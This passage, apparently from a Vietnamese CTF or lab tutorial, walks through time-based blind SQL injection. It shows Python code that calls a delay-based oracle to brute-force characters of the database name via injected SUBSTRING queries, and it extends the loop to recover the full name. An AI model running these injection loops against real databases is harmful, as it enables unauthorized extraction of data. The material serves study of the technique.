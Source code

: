 ```python
assert oracle("1=1")  # Kết quả True
assert not oracle("1=0")  # Kết quả False
```

---

#### **Bước 2: Trích xuất dữ liệu**
**Câu hỏi:** Xác định chữ cái thứ 5 trong tên cơ sở dữ liệu bằng truy vấn:
```sql
(select substring(db_name(), 5, 1)) = 'a'
```

##### **Triển khai**
```python
# Hàm xác định chữ cái thứ 5 trong tên cơ sở dữ liệu
def extract_fifth_letter():
    for char in range(97, 123):  # Duyệt qua các chữ cái từ 'a' đến 'z'
        if oracle(f"(SELECT SUBSTRING(DB_NAME(), 5, 1)) = '{chr(char)}'"):
            return chr(char)
    return None

# Lấy chữ cái thứ 5
fifth_letter = extract_fifth_letter()
print(f"Chữ cái thứ 5 trong tên cơ sở dữ liệu: {fifth_letter}")
```

---

### **Phân tích**

1. **Oracle hoạt động:**
   - Với truy vấn trả về **True** (chẳng hạn **`1=1`**), phản hồi bị trì hoãn đúng **5 giây**.
   - Với truy vấn trả về **False** (chẳng hạn **`1=0`**), phản hồi đến ngay lập tức.

2. **Trích xuất dữ liệu:**
   - Từng chữ cái được kiểm tra dựa trên bảng ASCII.
   - **`chr(char)`** chuyển giá trị ASCII sang ký tự.
   - Nếu Oracle trả về **True**, ký tự hiện tại là chữ cái thứ 5.

3. **Kết quả:**
   - Khi chạy script, bạn sẽ thấy:
     ```
     Chữ cái thứ 5 trong tên cơ sở dữ liệu: a
     ```

---

### **Mở rộng**
Bạn có thể sử dụng cách này để:
1. **Trích xuất toàn bộ tên cơ sở dữ liệu:**
   - Thay đổi vị trí từ 1 đến độ dài của tên cơ sở dữ liệu.
   ```python
   def extract_db_name(length):
       db_name = ""
       for i in range(1, length + 1):
           for char in range(97, 123):  # Từ 'a' đến 'z'
               if oracle(f"(SELECT SUBSTRING(DB_NAME(), {i}, 1)) = '{chr(char)}'"):
                   db_name += chr(char)
                   break
       return db_name
   ```
